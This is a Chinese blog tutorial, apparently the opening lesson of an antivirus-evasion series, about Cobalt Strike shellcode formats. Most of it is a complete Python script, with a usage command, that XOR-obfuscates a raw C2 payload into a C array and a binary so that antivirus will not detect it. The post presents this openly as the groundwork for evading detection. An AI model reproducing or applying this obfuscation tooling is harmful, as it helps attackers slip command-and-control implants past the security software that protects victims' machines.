


## 0x00 前言

前五课的代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

在此之前，我分享过《高级后渗透C2免杀与对抗》，其中对于一些原理铺垫上稍有欠缺，因此准备分成几篇文章来展开。

## 0X01 恶意代码的定义

以下文章中的所有关于恶意代码的定义都以Cobaltstrike的载荷为例。

## 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

## 0x03 RAW文件
RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的BIN文件。


RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常我一般使用混淆的方式再生成一遍。

## 0x04 C文件



C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

## 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while True:
            code = src_fp.read(1)
            if not code:
                break

            base10 = ord(code) ^ num
            base10_str = chr(base10)
            shellcode_raw += base10_str.encode()
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_raw.write(shellcode_raw)
        dst_raw.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```

上面这个脚本是我在去年写的，用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

### 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\xor_shellcoder.py -s .\payload.bin  -d payload.c -n 10 -r out.bin
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。



这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。


**注：-r 参数输出的是混淆过的二进制版本shellcode，-d 参数输出的是C语言格式的shellcode**